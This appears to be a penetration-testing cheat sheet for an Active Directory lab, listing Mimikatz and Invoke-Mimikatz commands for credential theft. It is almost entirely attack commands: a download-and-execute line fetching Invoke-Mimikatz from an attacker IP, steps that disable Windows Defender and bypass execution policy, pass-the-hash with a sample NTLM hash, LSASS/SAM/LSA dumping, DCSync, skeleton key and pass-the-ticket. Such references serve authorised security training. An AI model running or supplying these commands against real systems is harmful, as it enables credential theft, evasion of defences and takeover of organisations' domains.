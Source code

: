 # Mimikatz

Invoke-Mimikatz commands:

 - Upload Mimikatz from attacker machine, then run via PSRemoting (requires local admin) and dump the hashes
```
iex (iwr http://172.16.100.X/Invoke-Mimikatz.ps1 -UseBasicParsing)
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
# Disable AMSI
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```

 - Over Pass the Hash using an NTLM hash (run from elevated PowerShell)
```
# Disable AV
Set-MpPreference -DisableRealtimeMonitoring $true
# Bypass EP
powershell -ep bypass
# Load Mimikatz
. .\Invoke-Mimikatz.ps1
# Over pass the hash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
# Check privileges
ls \\$domaincontroller\c$
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName $dc
```

- Interesting credentials such as those set for Scheduled Tasks are stored in the Credential Vault. These can be extracted using:
`Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'`
 - Dump hashes on target machines
`Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <targetserver>`
 - Skeleton Key
`Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
 - Dump hashes from SAM database (local users)
`Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'`

These are currently directly lifted from https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#powershell-remoting
I will add and edit as this cheatsheet progresses.

```
#The commands are in cobalt strike format!

#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```